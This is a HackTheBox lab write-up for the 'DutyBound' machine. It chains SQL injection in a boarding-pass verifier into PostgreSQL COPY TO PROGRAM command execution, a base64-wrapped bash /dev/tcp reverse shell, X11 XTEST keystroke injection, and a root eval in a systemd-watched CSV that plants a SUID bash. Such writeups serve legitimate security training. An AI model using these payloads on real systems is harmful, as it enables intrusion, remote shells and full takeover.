


# DutyBound - HackTheBox Writeup

## Introduction

**DutyBound** is a Medium Linux machine built around **AirSnacks**, a duty-free self-checkout kiosk. The shop is simple, but the checkout asks for an **IATA Bar Coded Boarding Pass (BCBP)** so it can apply the right duty and tax. That boarding pass is the only user-controlled input that reaches the backend, and it is where the machine falls apart.

The parser checks the mandatory BCBP fields, but the trailing **airline use** value is concatenated into the audit `INSERT`. A single quote proves the injection; a stacked query proves the database connection will run more than one statement. The application role can use `COPY ... TO PROGRAM`, so the SQL injection becomes command execution as `postgres`. The database host also exposes its X11 display, which lets `postgres` open an `xterm` in the active kiosk session as `dutyfree-kiosk`. The kiosk user belongs to `pos-ops`, which can write the duty-rate CSV consumed by a root systemd unit; that script passes the first CSV field to `eval`, and a command substitution there creates a SUID Bash.

This writeup keeps the focus on that chain and gives the exact requests needed to reproduce each step.

-----

## 1. Initial Enumeration

A full TCP scan shows only three services:

```bash
nmap -p- --min-rate 3000 -T4 -oN scans/full.txt airsnacks.htb
```

```text
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
443/tcp open  https
```

Port 80 redirects to `https://airsnacks.htb/`, an nginx-fronted kiosk application. The hostname is mapped locally:

```bash
echo '10.129.87.92 airsnacks.htb' | sudo tee -a /etc/hosts
```

The landing page is an attract screen with a single **Touch to start** button. It leads to `/browse`, the shop:



The useful routes are `/browse`, `/cart`, `/checkout/boarding-pass`, `/health` and `/exit`. Directory brute forcing finds nothing else, and vhost fuzzing is a dead end: every Host value returns the same page, so there is no separate staff or admin application to find.

The interesting route is not linked from a directory wordlist. It is in `/static/app.js`:

```javascript
const pending = postJSON("/checkout/boarding-pass/verify", { raw: "" });
```

The browser always sends an empty barcode and then shows *No barcode detected*, but the endpoint accepts any `raw` value. The scanner page is only a front end:



-----

## 2. Building a Boarding Pass the Parser Accepts

The verifier needs an active checkout session. Adding one item creates the cart and the session cookie:

```bash
curl -ks -c jar.txt -b jar.txt \
  -H 'Content-Type: application/json' \
  -d '{"sku":"SPR-FRW-1L"}' \
  https://airsnacks.htb/cart/add
```

```json
{"cart_id":"c_77c9f66202","cart_size":1}
```

Without that cookie the verifier returns `CART_EMPTY` before it even looks at the barcode. With a cookie, an empty `raw` returns `BCBP_ERR_FORMAT_CODE`; a plausible barcode with no conditional data returns `BCBP_ERR_CONDITIONAL_REQUIRED`. The parser is strict, but its errors tell you what it wants.

Rather than implement the whole IATA standard, use the smallest pass that satisfies it:

```text
M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 014>60B1111111BBA 03123
```

That is 80 characters:

- The first 58 characters are the fixed BCBP fields: passenger `DOE/JOHN`, PNR `ABC123`, route `LHR` to `JFK`, carrier `BA`, flight `0123`, date `123`, seat `012A`, sequence `0012`, status `0`.
- The next two characters, `14`, are **item 6**: the hexadecimal length of everything that follows. `0x14` is 20 bytes.
- The 20-byte variable block is `>6` plus `0B` (the 11-byte unique block `1111111BBA `), `03` (the 3-byte repeated block `123`), and finally the airline-use area. The airline-use area is empty here.
- The unique block is 11 bytes because it contains the passenger description, check-in source, issuance source, date of issue, document type `B`, and issuing carrier `BA `. The repeated block is 3 bytes because it contains only the airline numeric code. Those are the smallest sizes the parser accepts.

The request is:

```bash
curl -ks -b jar.txt \
  -H 'Content-Type: application/json' \
  --data-binary @- \
  https://airsnacks.htb/checkout/boarding-pass/verify <<'JSON'
{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 014>60B1111111BBA 03123"}
JSON
```

```json
{"audit_ref":"aud_336e310503dc","dest":"JFK","exempt":false,"regime":"OFF_AIRPORT"}
```

The `dest` and `regime` fields are computed from the route. More importantly, the 200 response means the parser accepted the pass and reached the audit logger.

When the airline-use tail grows, item 6 must grow with it. The base is `0x14`; add the number of bytes appended:

| Airline-use tail | Added bytes | Item 6 |
|------------------|-------------|--------|
| empty | 0 | `14` |
| `'` | 1 | `15` |
| `'); SELECT pg_sleep(3);--` | 25 | `2D` |
| the `id` payload below | 95 | `73` |

That is the only arithmetic needed to keep the pass valid. If item 6 is wrong, the parser never reaches the vulnerable code.

-----

## 3. The SQL Injection

Append one quote to the airline-use field:

```text
M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 015>60B1111111BBA 03123'
```

A complete reproduction from a fresh shell:

```bash
# create the cart and session cookie, then send the quote payload
curl -ks -c jar.txt -b jar.txt -H 'Content-Type: application/json' \
  -d '{"sku":"SPR-FRW-1L"}' https://airsnacks.htb/cart/add >/dev/null
curl -ks -b jar.txt -H 'Content-Type: application/json' --data-binary @- \
  https://airsnacks.htb/checkout/boarding-pass/verify <<'JSON'
{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 015>60B1111111BBA 03123'"}
JSON
```

The same request as a Burp Repeater raw request:

```http
POST /checkout/boarding-pass/verify HTTP/1.1
Host: airsnacks.htb
Cookie: session=<session cookie from /cart/add>
Content-Type: application/json
Content-Length: 91

{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 015>60B1111111BBA 03123'"}
```

```text
HTTP/1.1 500 INTERNAL SERVER ERROR

unterminated quoted string at or near "''')"
LINE 1: ...E/JOHN', 'BA', '0123', '123', 'LHR', 'JFK', '', '', 81, ''')
                                                                   ^
```

The parser accepted the barcode; the failure happens later. The leaked statement shows why:

```sql
INSERT INTO bp_scan_audit (..., raw_len, airline_use)
VALUES (..., 81, '<airline use>')
```

The airline-use value is inside the SQL string, not a bind parameter. The quote closes the string early. The important part is not the 500: it is that the error prints the query, so the injection is in the audit logger.

### 3.1 Confirming stacked queries

A quote proves SQL syntax is reachable, but not that more than one statement will run. Add a sleep:

```bash
curl -ks -b jar.txt \
  -H 'Content-Type: application/json' \
  --data-binary @- \
  https://airsnacks.htb/checkout/boarding-pass/verify <<'JSON'
{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 02D>60B1111111BBA 03123'); SELECT pg_sleep(3);--"}
JSON
```

The quote closes the audit string, the `)` closes the `VALUES` tuple, the `;` starts the second statement, and `--` comments out the original closing `')`.

The request takes about 3.2 seconds, against roughly 0.15 seconds for a normal verification. That confirms a stacked query: the injected `;` ends the `INSERT`, and `SELECT pg_sleep(3)` runs as a second statement.

### 3.2 Turning the SQL injection into command execution

The application role is not a PostgreSQL superuser, but `COPY ... TO PROGRAM` works. That is the `pg_execute_server_program` capability, and it runs a shell command as the operating-system user behind the database.

The cleanest way to see the result is to put the command output into a temporary table and then force a type error that prints it:

```text
');CREATE TEMP TABLE o(l text);COPY o FROM PROGRAM '<command>';SELECT string_agg(l,'~')::int FROM o;--
```

`<command>` is a placeholder. Replace it with the shell command to run; `id` is the first test. The whole suffix must be a **single line** inside the `raw` field — the wrapping above is only for readability.

The complete barcode for `id` is:

```text
M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 073>60B1111111BBA 03123');CREATE TEMP TABLE o(l text);COPY o FROM PROGRAM 'id';SELECT string_agg(l,'~')::int FROM o;--
```

Use it with curl:

```bash
curl -ks -b jar.txt \
  -H 'Content-Type: application/json' \
  --data-binary @- \
  https://airsnacks.htb/checkout/boarding-pass/verify <<'JSON'
{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 073>60B1111111BBA 03123');CREATE TEMP TABLE o(l text);COPY o FROM PROGRAM 'id';SELECT string_agg(l,'~')::int FROM o;--"}
JSON
```

Or send the same body from Burp Repeater:

```http
POST /checkout/boarding-pass/verify HTTP/1.1
Host: airsnacks.htb
Cookie: session=<session cookie from /cart/add>
Content-Type: application/json
Content-Length: 185

{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 073>60B1111111BBA 03123');CREATE TEMP TABLE o(l text);COPY o FROM PROGRAM 'id';SELECT string_agg(l,'~')::int FROM o;--"}
```

```text
invalid input syntax for type integer:
"uid=114(postgres) gid=121(postgres) groups=121(postgres),120(ssl-cert)"
```

The cast to `::int` fails on purpose. PostgreSQL puts the invalid text in the error, and the application returns that error to the client. The command runs as `postgres`.

For a different command, change the program string and recalculate item 6. A small helper makes that less error-prone:

```python
# bcbp.py — prints a BCBP with the correct item 6 for the airline-use text on stdin
import sys
airline = sys.stdin.read().rstrip("\n")
fixed = ("M1" + "DOE/JOHN".ljust(20) + "E" + "ABC123 ".ljust(7) +
         "LHR" + "JFK" + "BA " + "0123 " + "123" + "Y" + "012A" +
         "0012 " + "0")
body = ">6" + "0B" + "1111111BBA " + "03" + "123" + airline
sys.stdout.write(fixed + f"{len(body):02X}" + body)
```

```bash
printf "%s" "');COPY (SELECT '') TO PROGRAM 'touch /tmp/proof';--" | python3 bcbp.py
```

The printed value is the `raw` field. The rest of the request is unchanged. If the command itself contains single quotes, wrap it in Base64 instead of fighting the SQL quoting:

```text
COPY o FROM PROGRAM 'echo <base64-command> | base64 -d | bash'
```

### 3.3 Reverse shell as postgres

`COPY TO PROGRAM` runs the command as `postgres`, so the command can simply connect back. On the attacker, allow the callback through the host firewall if necessary and start a listener:

```bash
sudo ufw allow in on tun0 to any port 4444 proto tcp
nc -lvnp 4444
```

Base64-encode the reverse shell so the SQL string stays clean:

```bash
echo 'bash -i >& /dev/tcp/10.10.14.245/4444 0>&1' | base64 -w0
```

```text
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDUvNDQ0NCAwPiYx
```

The airline-use suffix is:

```text
');COPY (SELECT '') TO PROGRAM 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDUvNDQ0NCAwPiYx | base64 -d | bash';--
```

The full barcode for item 6 `88` is:

```text
M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 088>60B1111111BBA 03123');COPY (SELECT '') TO PROGRAM 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDUvNDQ0NCAwPiYx | base64 -d | bash';--
```

Send it with the same request:

```bash
curl -ks -b jar.txt \
  -H 'Content-Type: application/json' \
  --data-binary @- \
  https://airsnacks.htb/checkout/boarding-pass/verify <<'JSON'
{"raw":"M1DOE/JOHN            EABC123 LHRJFKBA 0123 123Y012A0012 088>60B1111111BBA 03123');COPY (SELECT '') TO PROGRAM 'echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yNDUvNDQ0NCAwPiYx | base64 -d | bash';--"}
JSON
```

The HTTP request stays open while the shell is connected; that is expected. The listener receives the shell:

```text
uid=114(postgres) gid=121(postgres) groups=121(postgres),120(ssl-cert)
dutyfree-kiosk7
/var/lib/postgresql/18/main
```

Replace `10.10.14.245` with the attacker's `tun0` address.

-----

## 4. From postgres to the Kiosk User

### 4.1 The X11 Session

With the reverse shell connected, the next boundary is the active desktop. The goal is to get from `postgres` to `dutyfree-kiosk`; `postgres` has no password for the kiosk account and is not root, so `su` and `runuser` are closed. The remaining interface owned by the kiosk user is the X11 session.

X11 is an implicit trust boundary: a client that can connect to the display can observe it and inject input into it unless access control says otherwise. Here the server accepted a connection from `postgres` without an `XAUTHORITY` cookie. That is the weakness we are about to use.

Confirm the context and find the display:

```bash
id
hostname
ps auxww | grep -Ei 'Xorg|openbox|firefox'
```

```text
uid=114(postgres) gid=121(postgres) groups=121(postgres),120(ssl-cert)
dutyfree-kiosk7
root      1757  /usr/lib/xorg/Xorg :0 vt7 -nolisten tcp -auth /tmp/serverauth...
dutyfre+  1768  /usr/bin/openbox --startup ...
dutyfre+  1771  /snap/firefox/8803/usr/lib/firefox/firefox --kiosk https://airsnacks.htb
```

The display socket is `/tmp/.X11-unix/X0`, and `postgres` can connect to it without any extra credentials:

```bash
DISPLAY=:0 python3 -c \
  'from Xlib import display; d=display.Display(); print("X11 OK")'
```

```text
X11 OK
```

The useful part is that the Openbox session belongs to `dutyfree-kiosk`, while the database account is the one talking to the display. The Openbox configuration binds `Ctrl+Alt+T` to an `xterm`:

```bash
grep -n 'C-A-t' -A2 /etc/xdg/openbox/rc.xml
```

```xml
<keybind key="C-A-t">
  <action name="Execute"><command>xterm</command></action>
</keybind>
```

The grep matters because Openbox is the **kiosk user's** window manager. Its keybind launches `xterm` as a child of the kiosk session. If we ran `xterm` from the postgres shell it would still be a postgres process. But when Openbox launches it, the terminal inherits Openbox's UID, `dutyfree-kiosk`. The keybind is the bridge from "I can send X input" to "I can run a command as the kiosk user."

### 4.2 Opening the Kiosk xterm

`xterm` is installed. The reverse shell runs as `postgres`, so the XTEST helper sends the keyboard shortcut and then types the command that copies the user flag to `/tmp`:

```bash
cat > /tmp/x11_kiosk.py <<'PY'
import time
from Xlib import X, XK, display
from Xlib.ext import xtest

d = display.Display(':0')

def press(name, down=True):
    keycode = d.keysym_to_keycode(XK.string_to_keysym(name))
    xtest.fake_input(d, X.KeyPress if down else X.KeyRelease, keycode)
    d.sync()

def combo(mods, key):
    for m in mods:
        press(m, True)
    press(key, True)
    press(key, False)
    for m in reversed(mods):
        press(m, False)

def type_text(text):
    special = {'/': 'slash', '.': 'period', ';': 'semicolon',
               '-': 'minus', ' ': 'space'}
    for ch in text:
        name = special.get(ch, ch)
        press(name, True)
        press(name, False)

combo(['Control_L', 'Alt_L'], 't')
time.sleep(1.5)
type_text("cp /home/dutyfree-kiosk/user.txt /tmp/u; chmod 644 /tmp/u")
press('Return', True)
press('Return', False)
time.sleep(1)
PY

DISPLAY=:0 python3 /tmp/x11_kiosk.py
```

The punctuation map is not cosmetic. `dutyfree-kiosk` contains a hyphen, and without the explicit `'-': 'minus'` entry XTEST receives keycode `0` and fails with `BadValue` instead of typing the command.

The xterm is created by the kiosk session, so the command inside it runs as `dutyfree-kiosk`:

```bash
sleep 2
ls -la /tmp/u
```

```text
-rw-r--r-- 1 dutyfree-kiosk dutyfree-kiosk 33 /tmp/u
```

After the shortcut, the new xterm has focus; XTEST sends the characters to it as if they were typed on the physical keyboard. The copy is necessary because `postgres` cannot read `/home/dutyfree-kiosk`, while the kiosk-owned xterm can. The chain so far is:

```text
postgres shell
  -> DISPLAY=:0 / XTEST
  -> Openbox Ctrl+Alt+T
  -> xterm running as dutyfree-kiosk
  -> XTEST types the cp command
  -> /tmp/u readable by postgres
```

### 4.3 User Flag

Read the copied file from the `postgres` shell:

```bash
cat /tmp/u
```

```text
08fae242<REDACTED>
```

The file is owned by `dutyfree-kiosk`, which confirms the command ran in the kiosk session rather than the database account. The kiosk user is also a member of `pos-ops`, the group needed for the next step:

```bash
id dutyfree-kiosk
```

```text
uid=1000(dutyfree-kiosk) gid=1000(dutyfree-kiosk) groups=1000(dutyfree-kiosk),1001(pos-ops)
```

-----

## 5. Root Through the Duty-Rate File

### 5.1 The Writable Duty-Rate File

The `pos-ops` group can write the duty-rate CSV:

```bash
ls -la /opt/vrs/data
```

```text
drwxrwxr-x 2 root pos-ops 4096 .
-rw-rw-r-- 1 root pos-ops   97 duty-rates.csv
```

Both are group-writable by `pos-ops`: the directory is `775` and the file is `664`. The kiosk user is in `pos-ops`, so it can modify the existing file — the directory permission is only needed to reach it.

The file contains the tax classes and rates:

```text
SPIRITS,45,20
WINE,25,20
BEER,25,20
SOFT_DRINKS,20,20
SNACKS,20,20
CONFECTIONERY,20,20
WATER,0,0
```

A root-owned systemd path unit watches that file and runs a oneshot service when it changes:

```bash
systemctl status vrs-duty-apply.path
```

```text
● vrs-duty-apply.path - Watch for duty-rate updates (VRS TravelPOS)
     Active: active (waiting)
   Triggers: ● vrs-duty-apply.service
```

```bash
systemctl cat vrs-duty-apply.path
```

```ini
[Path]
PathModified=/opt/vrs/data/duty-rates.csv
Unit=vrs-duty-apply.service
```

`PathModified` watches the existing file's content/mtime. The correct move is therefore to overwrite that file in place, not to rename a new file over it:

```text
cp /tmp/newrates.csv /opt/vrs/data/duty-rates.csv   # in-place, triggers PathModified
mv /tmp/newrates.csv /opt/vrs/data/duty-rates.csv   # new inode, may not trigger PathModified
```

The service runs as root:

```ini
[Service]
Type=oneshot
EnvironmentFile=/etc/airsnacksdf/db.env
ExecStart=/opt/vrs/bin/apply-duty-rates.sh
```

### 5.2 The eval Payload

The part of the script that matters reads each CSV row, validates the two numeric columns, and then evaluates the first column:

```bash
while IFS=, read -r tax_class duty_pct vat_pct; do
    # ... length and numeric checks ...
    eval "${tax_class}=${duty_pct}"
done < "$RATES"
```

The first field is treated as data by the CSV reader but as shell syntax by `eval`. A command substitution in that field runs as root. The privilege chain is:

```text
dutyfree-kiosk (member of pos-ops)
  -> write /opt/vrs/data/duty-rates.csv
  -> vrs-duty-apply.path fires
  -> root runs apply-duty-rates.sh
  -> eval "$(first CSV field)=$duty_pct"
  -> command substitution as root
  -> SUID /tmp/rootbash
```

The CSV parser splits fields on commas, so the command in the first field must not contain a comma. The two rate fields must be numeric; `0,0` passes the regex. The original rows are kept because the script checks for the required categories after the loop:

```text
x=$(cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash),0,0
SPIRITS,45,20
WINE,25,20
BEER,25,20
SOFT_DRINKS,20,20
SNACKS,20,20
CONFECTIONERY,20,20
WATER,0,0
```

The `x=` prefix is deliberate: `eval "x=$(...)=0"` is a valid assignment, so `set -e` does not abort the loop before the remaining rows are processed. The command substitution still runs.

The CSV is staged in `/tmp` from the `postgres` shell because `/tmp` is world-writable and typing a complex heredoc through XTEST would be impractical. The kiosk xterm only has to run a short `cp`:

```bash
# postgres shell: create the staged file
cat > /tmp/newrates.csv <<'EOF'
x=$(cp /bin/bash /tmp/rootbash; chmod 4755 /tmp/rootbash),0,0
SPIRITS,45,20
WINE,25,20
BEER,25,20
SOFT_DRINKS,20,20
SNACKS,20,20
CONFECTIONERY,20,20
WATER,0,0
EOF
chmod 644 /tmp/newrates.csv
```

```bash
# kiosk xterm: overwrite the watched file in place
cp /tmp/newrates.csv /opt/vrs/data/duty-rates.csv
```

Because the destination already exists, `cp` opens the existing inode and overwrites its contents. The file stays `root:pos-ops` with mode `664`, and its mtime changes, which is exactly what `PathModified` watches. Do not use `mv` here: it replaces the directory entry with the temporary file's inode and may trigger `PathChanged` instead of `PathModified`.

The eval runs before the database import. Even if the script later objects to the payload row while loading `duty_rate`, the command substitution has already run as root.

The path unit fires, the root script evaluates the first field, and the SUID Bash appears:

```text
-rwsr-xr-x 1 root root 1396520 /tmp/rootbash
```

### 5.3 Root Flag

The SUID shell runs with effective UID 0 and reads the root flag:

```bash
/tmp/rootbash -p -c 'id; cat /root/root.txt'
```

```text
uid=114(postgres) gid=121(postgres) euid=0(root) groups=121(postgres),120(ssl-cert)
ecf02f32<REDACTED>
```

The `euid=0(root)` confirms the SUID shell, and the flag is read directly from `/root/root.txt`.

-----

## Conclusions

- **The parser validated the wrong fields.** It checked the mandatory BCBP layout but passed the airline-use tail into the audit query, so a valid-looking boarding pass still carried SQL.
- **The SQL injection was stacked, not blind.** The leaked `INSERT` confirmed the sink, and `pg_sleep` confirmed that multiple statements execute on the same connection.
- **The database role was the real privilege boundary.** `pg_execute_server_program` turned a web SQL injection into command execution as `postgres`.
- **X11 isolation mattered.** `postgres` could reach the kiosk user's display, which turned a database shell into the `dutyfree-kiosk` account without a password.
- **A group-writable input to a root service is root code execution.** The `pos-ops` group could change the CSV that a root systemd unit read and passed to `eval`.

**Attack chain:** AirSnacks kiosk → BCBP verifier → audit-log SQL injection → `pg_execute_server_program` / `COPY TO PROGRAM` → `postgres` → X11 XTEST → `dutyfree-kiosk` → writable duty-rate CSV → root `eval` → SUID Bash → root.
